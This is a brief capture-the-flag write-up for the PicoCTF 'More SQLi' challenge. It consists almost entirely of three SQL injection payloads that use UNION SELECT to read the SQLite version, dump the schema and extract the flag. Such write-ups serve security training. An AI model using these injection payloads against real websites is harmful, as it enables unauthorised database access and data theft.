

# More SQLi (PicoCTF)

`https://play.picoctf.org/practice/challenge/358`

```
Author: Mubarak Mikail
Description
Can you find the flag on this website. Try to find the flag here.
```


Payload:

`' UNION SELECT 1, sqlite_version(), 3;--`



Payload:

`' UNION SELECT name, sql, null from sqlite_master;--`


Flag payload:

`' UNION SELECT flag, null, null from more_table;--`


